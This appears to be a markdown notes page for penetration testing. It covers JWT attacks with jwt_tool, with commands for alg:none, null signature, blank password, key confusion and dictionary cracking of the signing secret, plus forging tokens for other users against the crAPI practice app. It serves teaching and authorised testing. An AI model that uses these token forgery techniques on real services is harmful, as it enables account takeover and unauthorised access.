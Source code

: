 ```yaml
---
title: JWT tool
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# JWT tool

### JWT attacks

Two tools: [jwt.io](https://jwt.io) and [jwt_tools](https://github.com/ticarpi/jwt_tool).

To see a jwt decoded on your CLI:

```bash
jwt_tool eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyQGhhcGloYWNoZXIuY29tIiwiaWF0IjoxNjY5NDYxODk5LCJleHAiOjE2Njk
1NDgyOTl9.yeyJzdWIiOiJoYXBpaGFja2VyQGhhcGloYWNoZXIuY29tIiwiaWF0IjoxNjY5NDYxODk5LCJleHAiOjE2Njk121Lj2Doa7rA9oUQk1Px7b2hUCMQJeyCsGYLbJ8hZMWc7304aX_hfkLB__1o2YfU49VajMBhhRVP_OYNafttug 
```

Result:

![jwt ](img/jwt-tool.png)


Also, to see the decoded jwt, knowing that is encoded in base64, we could echo each of its parts:

```bash
echo eyJhbGciOiJIUzUxMiJ9 | base64 -d  && echo eyJzdWIiOiJoYXBpaGFja2VyQGhhcGloYWNoZXIuY29tIiwiaWF0
IjoxNjY5NDYxODk5LCJleHAiOjE2Njk1NDgyOTl9 | base64 -d
```

Results:

```
{"alg":"HS512"}{"sub":"hapihacker@hapihacher.com","iat":1669461899,"exp":1669548299} 
```

To run a JWT scan with jwt_tool, run: 

```bash
jwt_tool -t <http://target-site.com/> -rh "<Header>: <JWT_Token>" -M pb
# in the target site specify a path that leverages a call to a token
# replace Header with the name of the Header and JWT_Tocker with the actual token.
# -M: Scanning mode. 'pb' is playbook audit. 'er': fuzz existing claims to force errors. 'cc': fuzz common claims. 'at': All tests.
```

Example:

![jwt ](img/jwt-tool2.png)


Some more jwt_tool flags that may come in hand:

```
# -X EXPLOIT, --exploit EXPLOIT
#                        eXploit known vulnerabilities:
#                        a = alg:none
#                        n = null signature
#                        b = blank password accepted in signature
#                        s = spoof JWKS (specify JWKS URL with -ju, or set in jwtconf.ini to automate this attack)
#                        k = key confusion (specify public key with -pk)
#                        i = inject inline JWKS

```


#### The none attack

A JWT with "none" as its algorithm is a free ticket. Modify user and become admin, root,... 
Also, in poorly implemented JWT, sometimes user and password can be found in the payload.

To craft a jwt with "none" as the value for "alg", run:

```bash
jwt_tool <JWT_Token> -X a
```


#### The null signature attack

Second attack in this section is removing the signature from the token. This can be done by erasing the signature altogether and leaving the last period in place.


#### The blank password accepted in signature

Launching this attack is relatively simple. Just remove the password value from the payload and leave it in blank. Then, regenerate the jwt.

Also, with jwt_tool, run:

```bash 
jwt_tool <JWT_Token> -X b
```
 
#### The algorithm switch (or key-confusion) attack

A more likely scenario than the provider accepting no algorithm is that they accept multiple algorithms. For example, if the provider uses RS256 but doesn’t limit the acceptable algorithm values, we could alter the algorithm to HS256. This is useful, as RS256 is an asymmetric encryption scheme, meaning we need both the provider’s private key and a public key in order to accurately hash the JWT signature. Meanwhile, HS256 is symmetric encryption, so only one key is used for both the signature and verification of the token. If you can discover the provider’s RS256 public key and then switch the algorithm from RS256 to HS256, there is a chance you may be able to leverage the RS256 public key as the HS256 key.

```bash
jwt_tool <JWT_Token> -X k -pk public-key.pem
# You will need to save the captured public key as a file on your attacking machine.
```


#### The jwt crack attack

JWT_Tool can still test 12 million passwords in under a minute. To perform a JWT Crack attack using JWT_Tool, use the following command:

```bash
jwt_tool <JWT Token> -C -d /wordlist.txt
# -C indicates that you are conducting a hash crack attack
# -d specifies the dictionary or wordlist
```

You can generate this wordlist for the secret signature of the json web token by using [crunch](crunch.md).

Once you crack the secret of the signature, we can create our own trusted tokens. 
1. Grab another user email (in the crapi app, from the data exposure vulnerability when getting the forum (GET {{baseUrl}}/community/api/v2/community/posts/recent).
2. Generate a token with the secret.


#### Spoofing JWKS 

Specify JWS URL with -ju, or set in jwtconf.ini to automate this attack.


#### Inject inline JWKS

